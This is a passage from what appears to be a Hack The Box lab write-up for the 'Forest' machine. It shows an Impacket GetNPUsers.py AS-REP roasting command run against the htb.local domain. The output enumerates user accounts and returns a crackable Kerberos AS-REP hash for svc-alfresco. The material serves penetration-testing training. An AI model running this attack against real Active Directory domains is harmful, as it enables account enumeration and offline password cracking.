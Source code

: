 <p align="center">
<img src="/assets/hackthebox/img/machines/easy/forest/web1.png">
</p>

```bash
❯ GetNPUsers.py htb.local/ -no-pass -usersfile users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:716b97133f6420642caaa47244cab7bf$e524765fb6fadd45ffb7c2427cd8a6485d4aa6401627b112e337aee60999241895e1fba1736cb5389b0d0738bb893ab5c480b6248d9557d4abf2d396ac85561c8210ef8658e52986463a1e35bade45d57394d63dacad45a3799f2a58286146cea55ebabe787b49bb4caeeac2ea809ab02bc491c68cf030ba26bdc1a21bf8dfa2e75d8546a09d85cfc92c81421bcd9a291a53cc6646c93372b0b633b365b46651d3d99ba6f25358c9ba04c82d4ceb52a076c33365ba69ab11a91a66eab5a228faee38f3b4709ef68c79bfdc1cf37861a192ff03b5950853a0cecf6ded74d5448e516d424e6713
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
